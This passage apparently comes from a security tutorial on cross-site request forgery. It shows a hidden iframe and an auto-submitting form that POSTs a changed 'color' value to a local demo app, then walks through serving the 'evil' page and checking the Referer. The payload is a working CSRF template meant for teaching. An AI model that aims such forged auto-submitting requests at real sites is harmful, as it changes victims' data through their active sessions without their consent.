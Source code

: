 ```markup
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='http://localhost:5000/update' target="csrf-frame" id="csrf-form">
  <input type='hidden' name='color' value='Hackzord!'>
  <input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```

Save the snippet above to &gt; templates/evil.html and run the command below to start our evil application.

```text
$ python app.py
```

Now when we have in the browser tab our active session of the application we can open a new tab where we will load our evil page we just created.

```text
http://localhost:1337/
```

This will now create a POST request to the application and changing the value of blue to the new value of 'Hackzord!' As you can see the Referer is set to our evil website where the request originated from.

![](.gitbook/assets/screen-shot-2019-03-04-at-21.24.14.png)

Also when we refresh the original page of the application we can see that the new value has been replaced with the content of our evil app.

![](.gitbook/assets/csrf-samesite2.png)
